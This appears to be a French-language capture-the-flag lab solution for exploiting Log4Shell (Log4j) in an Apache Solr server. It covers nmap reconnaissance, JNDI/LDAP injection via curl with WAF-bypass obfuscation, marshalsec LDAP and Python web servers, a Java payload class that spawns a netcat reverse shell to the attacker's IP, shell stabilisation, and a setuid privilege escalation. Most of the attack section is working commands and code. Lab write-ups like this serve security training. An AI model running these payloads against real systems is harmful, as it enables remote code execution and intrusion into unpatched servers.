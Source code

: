 # Ce fichier a but pour de donner la solution du TP 'Red_Log4Shell'
# Les adresse IP ne sont pas forcément identiques.
# Cette solution sera en 4 parties :
## Partie   I : Reconnaissance
`nmap -sP 172.17.17.0/24`
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-02 08:17 EDT
Nmap scan report for 172.17.17.2
Host is up (0.13s latency).
Nmap scan report for kali (172.17.17.139)
Host is up (1.3s latency).
Nmap scan report for 172.17.17.165
Host is up (0.40s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 18.89 seconds
```

`nmap -sS -sV -A -p- 172.17.17.165`
```
Nmap scan report for 172.17.17.165
Host is up (0.015s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 f2:7f:fc:28:53:0e:cf:2e:ca:71:fc:e7:1d:73:2f:6f (RSA)
|   256 25:58:a7:ff:9c:b7:5e:23:80:70:d4:f0:7c:1b:c2:39 (ECDSA)
|_  256 a5:8e:7b:b7:f6:d1:4c:fb:68:3f:3f:f7:ff:39:1d:29 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
MAC Address: 00:0C:29:C5:4E:A5 (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: Host: RedBlueLab.com; OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
TRACEROUTE
HOP RTT      ADDRESS
1   14.86 ms 172.17.17.165
 
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.69 seconds
```
![Capture d'écran de la version d'Apache Solr](https://github.com/GetSun2EZ/RedBlue-Lab/blob/main/Images/solr_version.png)

## Partie  II : Recherche d'une vulnérabilité sur l'application découverte
Maintenant que nous avons obtenu la technologie utilisée et les versions des applications, il faut explorer les potentielles vulnérabilités présentes sur ces applications. Ici, en cherchant sur internet, nous pouvons découvrir que sur la version 8.11.0. d’Apache Solr, la vulnérabilité Log4Shell est possible. Au chemin "/solr/admin/cores" du site tous les paramètres fournis sur cette page sont interprétés par Log4J.

Pour l’instant, tout ça reste hypothétique, il va falloir tester.
Pour réaliser l’attaque,il sera nécessaire d’ouvrir un serveur un serveur LDAP sur notre machine attaquante. En continuant nos recherches, l’outil "marshalsec" se révèle très utile. Nous aurons besoin d’un serveur Web, que l’on pourra obtenir facilement avec python.

Avant toute chose, il faut installer la même version de java que celle de l’application.
- Télécharger le paquet Java 8u181 <br>
`$ wget https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz`

- Décompresser le paquet <br>
`$ tar -xzf jdk-8u181-linux-x64.tar.gz`

Ensuite, regardons si le point d’injection est correct, nous allons simplement initialiser une connexion LDAP vers notre machine attaque grâce à l’API JNDI.
Il faut ouvrir un serveur sur la machine attaquante avec la commande suivante : <br>
`$ jdk1.8.0_181/bin/java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1/#Payload"`

Il n’est pas encore nécessaire de spécifier un serveur Web car il s’agit d’un test.
Comme la charge utile doit être présente dans un paramètre, la requête qui sera envoyée ressemblera à ceci :<br>
`$ curl 'http://172.17.17.165/solr/admin/cores?toto=$\{jndi:ldap://172.17.17.139:1389\}'`

L’exécution de cette commande, nous renvoie l’erreur suivante : <br>
![Capture d'écran de l'erreur](https://github.com/GetSun2EZ/RedBlue-Lab/blob/main/Images/erreur_waf.png)

Cette erreur peut nous faire penser qu’un WAF bloque notre requête, essayons la même commande mais avec un peu d’obfuscation : <br>
`$ curl 'http://172.17.17.165/solr/admin/cores?toto=${${lower:j}ndi:ldap://172.17.17.139:1389\}'`

Cette fois une connexion a bien été enregistrée sur notre serveur LDAP, ce qui signifie que l’application Web est belle et bien vulnérable à Log4Shell. <br>
![Capture d'écran de la réponse du serveur LDAP](https://github.com/GetSun2EZ/RedBlue-Lab/blob/main/Images/ldap_local.png)

Nous pouvons aussi voir que le serveur LDAP redirige vers un serveur Web.

## Partie III : Exploitation de la vulnérabilité trouvée
Créons maintenant la charge utile, créer un fichier Exploit.java et modifié le comme suivant : <br>
```
public class Exploit {
    static {
        try {
            Runtime.getRuntime().exec("nc.traditional -e /bin/bash 172.17.17.139 1721");
        } catch (Exception e) {}
    }
}
```
Attention, il s’agit d’une classe publique, il sera impossible de compiler le fichier si le nom de la classe n’est pas égal au nom du fichier.
Pour compiler le fichier utiliser la commande suivante : <br>
`$ jdk1.8.0_181/bin/javac Exploit.java`

Relancer le serveur LDAP sur la machine attaquante mais redirigera les requêtes vers le serveur Web python qui sera ouvert sur la machine attaquante : <br>
`$ jdk1.8.0_181/bin/java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://172.17.17.139/#Exploit"`

Lancer le serveur Web python : <br>
`$ python3 -m http.server`

Se mettre en écoute sur le port 1721 : <br>
`$ nc -lnvp 1721`

Lancer la requête cURL : <br>
`$ curl 'http://172.17.17.165/solr/admin/cores?toto=${${lower:j}ndi:ldap://172.17.17.139:1389:Exploit\}'`
![Capture d'écran de la réponse du serveur LDAP](https://github.com/GetSun2EZ/RedBlue-Lab/blob/main/Images/ldap.png)
![Capture d'écran de la réponse du serveur Web](https://github.com/GetSun2EZ/RedBlue-Lab/blob/main/Images/serveur_web.png)
![Capture d'écran de la réponse du NC](https://github.com/GetSun2EZ/RedBlue-Lab/blob/main/Images/nc_connexion.png)

On peut constater que la requête cURL se connecte bien sur notre serveur LDAP qui lui redirige correctement vers notre serveur Web afin d’importer la charge utile qui elle va exécuter la commande "nc.traditional -e /bin/bash 172.17.17.139 1721" et crée un reverse shell.
Afin d’obtenir un terminal interactif, il est possible d’exécuter les commandes suivantes :
```
python3 -c "__import__('pty').spawn('/bin/bash')"
ctrl+z
echo $TERM && tput lines && tput cols
stty raw -echo; fg
reset
xterm
```
Nous avons obtenu le drapeau utilisateur.

## Partie  IV : Escalade de privilège
Pour obtenir le drapeau administrateur, il faudra exploiter une autre vulnérabilité. Afin de la trouver le plus rapidement possible, il peut être judicieux d’utiliser le programme "linpeas.sh". En cherchant un peu dans la sortie de ce programme, nous découvrons qu'un binaire qui se nomme "boring" possède un "setuid". En faisant de la  rétro-ingénierie, on découvre qu’en l'exécutant et en écrivant "RootAccess" dans le terminal, nous obtenons un accès administrateur.



